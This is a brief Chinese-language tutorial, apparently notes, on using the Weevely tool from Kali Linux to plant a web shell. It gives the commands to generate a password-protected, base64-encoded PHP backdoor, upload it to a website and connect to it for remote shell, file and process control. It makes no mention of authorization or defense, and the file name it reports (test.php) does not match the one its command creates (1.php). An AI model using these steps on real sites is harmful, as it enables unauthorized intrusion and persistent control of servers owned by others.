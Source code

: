 #Weevely菜刀
---


使用Weevely?

 1、在Kali Linux终端输入weevely

 2、生成一个php后门，是base64加密的，存放路径可自行指定 格式：weevely generate 密码 路径 文件名 举例：weevely generate passwd /tmp/1.php 解析：生成一个名为test.php的后门，密码为passwd 

3、将此后门上传到网站，用weevely连接，连接后面直接跟上设置的密码【网站路径自行指定】 weevely http://192.168.179.137/doyo/test.php passwd 

4、连接webshell，会反弹一个shell终端，中文会乱码，可设置终端界面编码解决之。

5、进行控制操作，如查看系统信息，文件操作，进程操作等 6、同时weevely还支持多个模块使用，在连接上后门之后按Tab键，可以查看可利用的模块，工具很强大，大家自行研究！
